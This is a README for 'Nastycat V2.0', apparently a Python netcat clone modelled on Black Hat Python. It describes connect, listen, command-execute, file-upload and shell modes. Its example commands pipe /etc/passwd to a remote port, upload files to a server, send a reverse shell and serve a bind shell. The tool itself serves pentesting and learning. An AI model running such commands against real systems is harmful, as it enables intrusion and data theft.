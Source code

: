 # Nastycat V2.0

Nastycat is a tool completely made using python for replacing NetCat utility. The first version uses the pwntools framework which is not natively installed with installation of python. But this 2.0 version does not use any libraries that are not preinstalled with python. This allows it to be useful in many situation where the first version would not. Moreover it offers better features than that previous one.

CREDIT - The concept of this tool is from Black Hat Python by Justin Seitz.

## Features

It is very likely to original NetCat.
- It can connect to a server and deliver data on both sides.
- It can also listen for connections on a specific port.

A great feature includes execute mode.
- When specified with listening mode, it executes specified command on local system and starts a server. When someone connects to it, delivers the output.
- Else it will execute the command and send output to the server.

Also includes an upload mode.
- When in listening mode, receives the client output and saves it to the specified file.
- When connected to a server, sends the contents of the specified file to the server.

Now a shell mode is included.
- When enabled with listening mode, activates a server, when a client connects, provides the client access to the server machine's terminal. When client disconnects, repeats the same until it is manually killed.
- When enabled in client mode, invokes an actual reverse shell payload to be sent to the server which allows the server to access the client's terminal.

Note - This is now only supported in linux or linux based operating systems. It does not works as it is supposed to in windows systems.

## Examples

```bash
python3 ./nastycat_v2.py 192.168.3.41 -p 4444 # connect to server at port 4444
```
```bash
python3 ./nastycat_v2.py -l # listens on default port 4444
```
```bash
python3 ./nastycat_v2.py -lp 5555 # listens on port 5555
```
```bash
python3 ./nastycat_v2.py -e "cat /etc/passwd" 192.168.3.41 -p 8080 # sends the output to port 8080
```
```bash
python3 ./nastycat_v2.py -le "cat /etc/passwd" # listens on port 4444 and sends the output when client connects
```
```bash
python3 ./nastycat_v2.py -lu test.txt # receive client data and save it to specified file.
```
```bash
python3 ./nastycat_v2.py -u file.txt 192.168.3.41 -p 8080 # read the file contents and send it to the server.
```
```bash
echo -ne "GET / HTTP/1.1\r\nHost: www.google.com\r\n\r\n" | python3 ./nastycat_v2.py google.com 80 # same old school method of invoking web requests.
```
```bash
python3 ./nastycat_v2.py -s 192.168.3.41 -p 5555 # sends an actual reverse shell payload to the server. Note - do not works in windows.
```
```bash
python3 ./nastycat_v2.py -ls # starts a server, when a client connects, gets access to the servers terminal.
```

Note - This script may require root priviledges on some scenarios.

## Contribution
Any body can voluntarily contribute to this project if he/she has a better idea.
If so, please contact me on my [Insta Handle](https://www.instagram.com/sayanray385/).
